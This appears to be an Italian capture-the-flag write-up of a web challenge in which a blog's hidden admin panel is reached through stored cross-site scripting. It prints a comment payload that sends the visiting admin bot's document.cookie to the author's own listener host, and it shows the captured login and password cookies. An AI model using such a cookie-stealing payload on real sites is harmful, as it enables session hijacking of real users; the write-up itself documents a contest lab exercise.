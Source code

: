 ```yaml
---
layout: post
title:  "Juniors2016 - Hacker's Blog"
date:   2016-12-14 03:15
categories: CTF
tags: [web,Juniors2016]
author: jbz
---
```


*PREMESSA: per accedere a questa challenge bisognava utilizzare una VPN fornita dagli organizzatori.*

Veniva dato un sito web, `http://10.0.7.216:54337`: un blog.

Cliccando su uno dei post ho notato che l'URL era il canoninco `post.php_id=<id>`. Ho provato a forzare un errore SQL ma non era vulnerabile.

Ho notato che i vari post permettevano commenti. Ho provato ad inserire un commento e mi veniva restituito un errore in russo che tradotto diceva:
> Un amministratore deve confermare il commento.

Ho pensato quindi che il sito potrebbe essere vulnerabile a Cross Site Scripting.

Ho guardato il sorgente della pagina e ho notato questo commento:

`<!-- Secret admin panel: aHR0cDovLzEwLjAuNy4yMTY6NTQzMzcvYWRtaW42NDY0MS5waHA= -->`

Che decodificato restituisce:

`http://10.0.7.216:54337/admin64641.php`

Sono andato a quell'indirizzo e mi veniva restituito un errore (sempre in russo) che tradotto era:
>Username e password sbagliati.

Ho postato quindi un commento con questo payload (10.3.2.2. era il mio indirizzo IP):

```html
<script>document.write('<img src=http://10.3.2.2:8000/?' + document.cookie +'>')</script>
```

Ho scoperto che il cookie del bot era `login=admin`. Ho impostato il cookie, sono tornato nella pagina admin che ho trovato in precedenza, ma purtroppo ottenevo lo stesso errore.

Ho provato quindi un altro payload, per recuperare `document.location` ed ho ottenuto l'indirizzo `http://10.0.7.216:54337/bot_check.php?check=4e195228ec31dd6f3fef492`. Ho fatto una richiesta a quell'indirizzo e ho notato che il webserver mi ha settato due cookie:

```
Set-Cookie: login=admin; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
Set-Cookie: password=e0377f6e85d987d81e96c0381c789360fe90547bdf9be3b5082a492b9c4184f7; expires=Mon, 05-Dec-2016 19:35:19 GMT; path=/
```

Con questi cookie, sono tornato alla pagina admin che ho trovato in precedenza ed ho ottenuto la flag:

> Флаг:
>
> 1true_haCkeers1337_XSS
